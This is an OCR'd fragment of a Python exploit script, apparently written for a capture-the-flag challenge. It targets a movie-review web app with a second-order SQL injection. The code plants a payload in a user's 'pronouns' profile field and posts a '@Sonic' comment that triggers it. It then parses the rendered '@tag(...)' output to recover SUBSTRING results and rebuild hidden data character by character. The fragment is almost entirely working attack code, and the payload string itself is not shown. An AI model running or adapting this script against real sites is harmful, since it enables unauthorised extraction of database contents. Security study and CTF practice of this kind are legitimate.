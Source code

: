 ```python
        "email": "",
        "pronouns": payload,
        "password": ""
    }
    r = requests.post(url, data=data, cookies=COOKIES, headers=HEADERS)
    if r.status_code != 200:
        print(f"Injection error, index {index} : {r.status_code}")

def trigger_comment(movie_id):
    url = f"{BASE_URL}/movie/{movie_id}"
    data = {
        "content": "@Sonic"
    }
    r = requests.post(url, data=data, cookies=COOKIES, headers=HEADERS)
    if r.status_code != 200:
        print(f"Erreur trigger comment {movie_id} : {r.status_code}")

def parse_tags_to_ascii_mapping(page_text):
    result = {}
    # Match tous les <p>@tag(...)</p>
    tag_blocks = re.findall(r'<p>@tag\((.*?)\)</p>', page_text, re.DOTALL)

    for tag in tag_blocks:
        current = tag.split("--")

        order_match = re.search(r".*SUBSTRING\(.*,(\d+),\d+\)\)", current[0])
        if not order_match:
            continue
        order=int(order_match.group(1))


        result_match = re.search(r'\d+', current[1])
        if not result_match:
            continue
        ascii_val = int(result_match.group())

        result[order] = ascii_val

    return result


def extract():
    create_dummy_movie()
    time.sleep(SLEEP)
    movie_id = get_last_movie_id()
    if not movie_id:
        return

    result = ""
    for i in range(1, MAX_LEN+1):
        inject_sqli(i)
        time.sleep(SLEEP)
        trigger_comment(movie_id)
        time.sleep(SLEEP)
        url = f"{BASE_URL}/movie/{movie_id}"
        r = requests.get(url, cookies=COOKIES)
        mapping = parse_tags_to_ascii_mapping(r.text)

        ascii_val = mapping.get(i, 0)
        if ascii_val == 0:
            break
        result += chr(ascii_val)
        print(f"[{i}] ASCII: {ascii_val} => {chr(ascii_val)}")
```